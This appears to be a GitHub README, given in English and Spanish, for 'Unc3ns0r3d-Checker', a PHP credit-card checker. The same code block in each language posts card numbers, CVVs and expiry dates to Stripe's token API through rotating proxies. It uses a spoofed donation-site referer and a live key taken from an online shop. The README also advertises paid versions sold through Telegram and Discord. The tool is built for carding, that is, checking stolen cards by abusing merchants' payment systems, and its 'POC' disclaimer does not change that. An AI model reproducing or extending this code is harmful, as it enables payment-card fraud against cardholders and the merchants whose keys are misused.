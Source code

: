 <!-- (Mirror of Original repo) -->
## `ATTENTION` YOU ARE RESPONSIBLE IF YOU MISUSE THIS, I DO NOT TAKE ANY RESPONSIBILITY FOR YOU ACTION THROUGH THIS. THIS IS JUST A POC. 
# PLEASE DO NOT TEND TO MOD/HACK PHP SCRIPTS WITHIN THIS REPO. AND DO SOMETHING THAT WOULD GET YOURSELF INTO TROUBLE. SINCE I DON'T CARE IF YOU DO SO, YOU'D BE BEHIND BARD FOR MISUSING THIS POC.

<img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker v2">

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and other type of donations.


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```
###  SITES 🌐


- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files included 📂

- api.php **Free**
- api_1.php **Free**
- api_p1.php **Pay** > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**
- api_p2.php **Pay** > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)

My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤

I love coffee❤

The Unc3ns0r3d project was created 04/26/2018

### Contact Me ✉
- @MrPopos2 - Telegram
- SkarY#0554 - Discord

================================================================

> Idioma: ES (Español)

Checker de tarjetas de crédito, basado en sistemas de donación reales y stripe

```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```

###  SITIOS 🌐

- **Sitio API 1**
    - https://api.stripe.com/v1/tokens
    
- **Sitio BIN 1**
    - https://lookup.binlist.net/


### Archivos Incluidos 📂

- api.php **Gratuito**
- api_1.php **Gratuito**
- api_p1.php **Pago**  > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**
- api_p2.php **Pago**  > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**

### Sobre Mi 👨‍💻

Fundador de Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Cerrado)

Mis lenguajes favorios de programación son C ++, VB.NET, PYTHON, PHP, JAVASCIPRT y JQUERY❤

Amo el café❤

Proyecto Unc3ns0r3d fue creado el día 04/26/2018 / Editado 24/08/2019

### Contactame ✉
- @MrPopos2 - Telegram
- SkarY#0554 - Discord
